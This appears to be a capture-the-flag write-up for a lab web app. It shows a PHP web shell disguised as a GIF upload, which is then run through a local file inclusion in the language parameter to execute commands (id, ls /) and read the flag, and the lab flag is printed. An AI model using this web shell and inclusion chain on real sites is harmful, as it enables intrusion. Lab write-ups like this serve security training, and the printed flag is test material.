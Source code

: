 ## Challenge

Use any of the techniques covered in this section to gain RCE and read the flag at /

## Solution

In the webpage there is an option `Profile Settings`.

There is a function that allows to upload the profile image:

Let's start by creating a gif image:

`echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`

And after that I uploaded the gif file to the site. 

I right click on the image (there is nothing shown as that's not a real image), and open it to an new page, the url becomes:

`http://94.237.54.116:58190/profile_images/shell.gif`

So now I know the path to the "picture".

I change the language and the url is:

`http://94.237.54.116:58190/index.php?language=es.php`

I point out to the directory where the image is:

`http://94.237.54.116:58190/index.php?language=./profile_images/shell.gif&cmd=id`

and the result now is:

`GIF8uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Let's list the files at the root directory:

`http://94.237.54.116:58190/index.php?language=./profile_images/shell.gif&cmd=ls%20/`

There is a file called `GIF82f40d853e2d4768d87da1c81772bae0a.txt` and I `cat` to that file:

The flag is `HTB{upl04d+lf!+3x3cut3=rc3}` and the lab is solved.

